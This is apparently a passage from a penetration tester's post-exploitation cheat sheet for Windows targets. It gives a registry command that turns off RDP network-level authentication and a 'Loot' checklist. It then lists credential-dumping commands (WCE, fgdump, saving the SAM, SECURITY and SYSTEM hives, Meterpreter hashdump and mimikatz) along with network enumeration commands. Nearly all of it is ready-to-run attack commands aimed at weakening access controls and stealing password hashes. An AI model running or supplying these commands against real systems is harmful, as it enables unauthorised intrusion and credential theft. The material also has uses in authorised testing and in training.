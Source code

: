 ```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```



------------------------------------------------------------------------




----------------------------- LOOT LOOT LOOT LOOT -------------------




------------------------------------------------------------------------


## Loot

- Proof:
- Network secret:
- Password and hashes:
- Dualhomed:
- Tcpdump:
- Interesting files:
- Databases:
- SSH-keys:
- Browser:

### Proof

### Network secret

### Passwords and hashes

```
wce32.exe -w
wce64.exe -w
fgdump.exe

reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv
```

### Dualhomed

```
ipconfig /all
route print

# What other machines have been connected
arp -a
```
